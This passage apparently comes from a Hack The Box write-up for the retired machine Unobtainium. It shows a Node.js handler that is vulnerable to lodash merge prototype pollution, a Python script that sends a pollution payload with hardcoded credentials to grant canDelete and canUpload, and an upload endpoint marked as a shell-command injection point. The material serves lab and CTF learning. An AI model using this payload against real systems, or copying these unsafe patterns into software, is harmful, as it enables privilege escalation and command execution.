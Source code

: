 ```javascript
  const message = {
    icon: '__',
  };
/*    /---------- injection point      */
  _.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
  });

  messages.push(message);
  res.send({ok: true});
});
```

Script to inject canDelete and canUpload:
```python
import requests

url = 'http://unobtainium.htb:31337/'

headers = {
  "Content-Type": "application/json"
}

# https://github.com/kimmobrunfeldt/lodash-merge-pollution-example
json = {"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"constructor": {"prototype": {"canDelete": "true", "canUpload": "true"}}}}

r = requests.put(url, headers=headers, json=json)

print(r.headers.get('content-type'))
print(r.status_code)

if 'application/json' in r.headers.get('Content-Type'):
  print(r.json())
else:
  print(r.text)
```

### Google Cloud-storage commands injection in retired machine HTB UNOBTAINIUM
Script allows upload file / inject shell commands

Snippet from original code:
```javascript
app.post('/upload', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  filename = req.body.filename;
  /*                  /------------- injection point   */
  root.upload("./",filename, true);
  res.send({ok: true, Uploaded_File: filename});
});
```

